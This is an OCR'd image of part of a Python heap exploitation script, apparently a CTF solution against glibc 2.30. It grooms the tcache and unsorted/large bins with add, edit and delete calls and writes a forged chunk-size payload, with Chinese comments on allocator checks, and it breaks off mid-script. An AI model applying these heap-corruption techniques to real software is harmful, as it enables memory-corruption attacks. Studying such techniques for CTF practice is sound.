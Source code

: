 ```
    claim(0xc8)# 28-34
    claim(0xd8)# 35-41
    claim(0xe8)# 42-48

    #--------------------------
    add(0x98)# 49
    edit(49,'A'*8)
    add(0x98)# 50

    add(0x18)# 51
    add(0xa8)# 52    0

    add(0xb8)# 53     1
    add(0xd8)# 54     2
    add(0xd8)# 55

    edit(54,"A"*8)

    add(0xe8)# 56     3
    pay = p64(0x200) + p64(0xe0)
    # print len(pay)
    # pause()
    edit(56,pay)# 这里因为2.30中 从,unsortedbin 中卸下，malloc的时候也会检查next_size  
    #-------------------------
    # debug([0x13B8])

    add(0xe8)# 57    4
    add(0x98)# 58
    add(0xe8)# 59
    add(0x18)# 60


    #-------------------------
    #--tcache
    for i in range(0,7):#0x88
        delete(i)
    for i in range(14,21):#0xa8
        delete(i)
    for i in range(21,28):#0xb8
        delete(i)
    for i in range(35,42):#0xd8
        delete(i)
    for i in range(42,49):#0xe8
        delete(i)    
    #--tcache



    for i in range(52,57):
        delete(i)
    #----------------------------

    claim(0x88)
    claim(0xa8)
    claim(0xb8)
    claim(0xd8)
    claim(0xe8)

    #---------------------------------------------------------------- 上面是一个大的unsorted bin
    add(0x98)# 52   进行add之后unsortedbin 被放入了largebin 之后进行了分配
    add(0x98)# 53
    pay = 0x98 * "a"
    # # pause()
```